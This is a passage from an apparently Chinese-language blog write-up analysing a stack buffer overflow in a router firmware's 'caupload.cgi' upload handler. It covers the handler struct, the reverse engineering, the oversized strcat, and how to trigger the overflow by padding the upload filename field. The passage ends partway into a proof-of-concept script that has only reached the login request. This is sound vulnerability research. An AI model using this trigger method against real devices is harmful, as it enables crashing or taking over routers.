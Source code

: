在项目的httpd.h文件中可以找到mime_handler结构体定义

```
struct mime_handler {
	char *pattern;
	char *mime_type;
	char *extra_header;
	void (*input)(char *path, FILE *stream, int len, char *boundary);
	void (*output)(char *path, FILE *stream);
	void (*auth)(char *userid, char *passwd, char *realm);
};
```

其大致逻辑就是获取完报文请求头后遍历mime_handlers结构体数组，根据用户访问的url找到对应的mime_handler结构体，再判断鉴权以及调用其中的函数指针，这些被调用的函数就是需要重点审计的地方

在固件中也可以找到mime_handlers结构体数组

![](https://tva1.sinaimg.cn/large/008i3skNly1gvew0gmxb3j60pc0jnjvz02.jpg)

经过逆向分析，最后在"caupload.cgi"字段的mime_handler结构体中找到了存在漏洞的函数

![](https://tva1.sinaimg.cn/large/008i3skNly1gvew04qeshj60pe0jqwiv02.jpg)



### 分析漏洞

根据对handler的`input`函数调用的语句可以知道各参数的含义

![](https://tva1.sinaimg.cn/large/008i3skNly1gvewhaqsunj60pc0jt41y02.jpg)

这里只有3个参数，与源码中看到的调用语句不同，是因为ida没有识别出将第四个参数存入寄存器的过程，直接查看汇编代码就能看到对R3的赋值

进入"caupload.cgi"相关结构体的`input`函数，也能看到其实是有四个参数的

![](https://tva1.sinaimg.cn/large/008i3skNly1gvewrskesjj60p90jn41s02.jpg)

程序运行到这个函数的时候，http报文请求头已经被读取了，此时缓冲区中还有http报文的请求数据

![](https://tva1.sinaimg.cn/large/008i3skNly1gvex24iwllj60p90jndir02.jpg)

该函数从缓冲区中获取请求数据后保存在大小为0x10000的input3数组中，根据请求数据中的"name"字段进入不同的分支

而漏洞的成因是最后调用的`strcat`函数，程序会判断"Content-Length"字段判断请求数据的长度（通过第三个参数传递），将`fgets`从缓冲区获取到的字符串拼接到保存在栈上的变量v34后面，但是由于这里Content-Length的最大限制为0xffff，而该函数的栈帧长度只有0x1440，存在栈溢出漏洞



### 触发漏洞

逆向报文结构让程序能执行到调用`strcat`函数的分支，只需要在`Content-Disposition: form-data; name="file_ca"; filename=`后填充大量字符就可以造成溢出（通过burp抓包得到登录报文格式，在验证漏洞之前需要先进行登录）

poc.py：

```python
#/usr/bin/python3
import requests
import socket
import base64
import sys

def attack(ip, username, passwd):
	login_url = "http://"+ip+"/login.cgi"
	hd = {"Host": "192.168.50.1",
		"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
		"Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
		"Accept-Encoding": "gzip, deflate",
```